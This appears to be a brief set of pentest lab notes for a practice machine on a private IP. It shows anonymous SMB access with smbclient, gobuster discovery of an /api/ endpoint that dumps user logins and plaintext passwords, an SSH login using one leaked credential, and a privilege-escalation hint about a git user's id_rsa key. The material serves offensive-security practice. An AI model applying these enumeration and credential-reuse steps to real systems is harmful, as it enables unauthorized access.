 ____

IP=192.168.241.125


# SMB

```bash
smbclient -N \\\\$IP\\Commander -p 12445 
```

KT files --> Kotlin

# 8080 - HTTP

```bash
<a href="http://localhost:8080/api/">List all</a>
```

gobuster  --> /api/

![[Pasted image 20240223215211.png]]

```json
{"login":"rjackson","password":"yYJcgYqszv4aGQ","firstname":"Richard","lastname":"Jackson","description":"Editor","id":1},{"login":"jsanchez","password":"d52cQ1BzyNQycg","firstname":"Jennifer","lastname":"Sanchez","description":"Editor","id":3},{"login":"dademola","password":"ExplainSlowQuest110","firstname":"Derik","lastname":"Ademola","description":"Admin","id":6},{"login":"jwinters","password":"KTuGcSW6Zxwd0Q","firstname":"Julie","lastname":"Winters","description":"Editor","id":7},{"login":"jvargas","password":"OuQ96hcgiM5o9w","firstname":"James","lastname":"Vargas","description":"Editor","id":10}
```

ssh dademola:ExplainSlowQuest110

# PrivEsc

git user --> id_rsa



